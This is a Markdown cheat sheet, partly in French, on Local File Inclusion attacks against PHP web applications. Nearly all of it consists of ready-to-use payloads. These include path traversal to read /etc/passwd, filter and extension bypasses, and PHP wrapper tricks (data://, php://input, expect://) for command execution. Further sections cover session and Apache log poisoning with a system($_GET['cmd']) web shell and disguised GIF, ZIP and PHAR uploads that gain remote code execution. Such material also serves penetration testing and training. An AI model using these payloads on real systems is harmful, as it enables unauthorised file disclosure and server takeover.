 ## Basic

Basic LFI

```sh
/index.php?language=/etc/passwd
```

LFI with path traversal

```sh
/index.php?language=../../../../etc/passwd
```

LFI with name prefix

```sh
/index.php?language=/../../../etc/passwd
```

LFI with approved path

```sh
/index.php?language=./languages/../../../../etc/passwd

```

## Bypass Techniques

Bypass basic path traversal filter

```sh
/index.php?language=....//....//....//....//etc/passwd
```

Bypass filters with URL encoding

```sh
/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

Bypass appended extension with path truncation (obsolete)

```sh
/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Bypass appended extension with null byte (obsolete)

```sh
/index.php?language=../../../../etc/passwd%00
/index.php?language=../../../../etc/passwd%00.php
```

Read PHP with base64 filter

```
/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

## Code Execution

### With PHP Wrappers

Verifier la version de PHP `/etc/php/X.Y/apache2/php.ini`

> Si on n'a `allow_url_include = On` Ou `extension=expect`


**data**

```sh
/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

**input** 

```sh
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

**expectr** 

```sh
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

### With Session 

Read PHP session parameters

```sh
/index.php?language=/var/lib/php/sessions/sess_[SESSIONS_ID]
```

Poison PHP session with web shell

```sh 
/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E  
```

RCE through poisoned PHP session 

```sh
/index.php?language=/var/lib/php/sessions/sess_[SESSIONS_ID]&cmd=id
```

### Log-Poisoning 

L'empoisonnement des journaux est une technique utilisée pour obtenir un shell inversé à partir d'une vulnérabilité LFI. 
Pour le faire fonctionner, un attaquant tente d'injecter une entrée malveillante dans le journal du serveur (user-agent).

Fichier journal apache pour avoir la possibilité d'utiliser l'empoisonnement du journal:

```http
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache2/other_vhosts_access.log
```

Pour que cela se produise, le répertoire doit disposer des autorisations de lecture et d'exécution


Poison server log

```sh
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'
```

RCE through poisoned PHP session 

```sh
/index.php?language=/var/log/apache2/access.log&cmd=id  
````

```http
http://vulnweb.com/var/log/apache2/access.log&cmd=id
```

## LFI + Upload

**GIF**

```sh
# Create malicious image
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

# RCE with malicious uploaded image
/index.php?language=./profile_images/shell.gif&cmd=id
```

**ZIP** 

```sh
# Create malicious zip archive 'as jpg'
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

# RCE with malicious uploaded zip
/index.php?language=zip://shell.zip%23shell.php&cmd=id

```

**PHAR**

```sh
## content of rshell.php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
?>

# Create malicious phar 'as jpg'
php --define phar.readonly=0 rshell.php && mv shell.phar shell.jpg

# RCE with malicious uploaded phar
/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
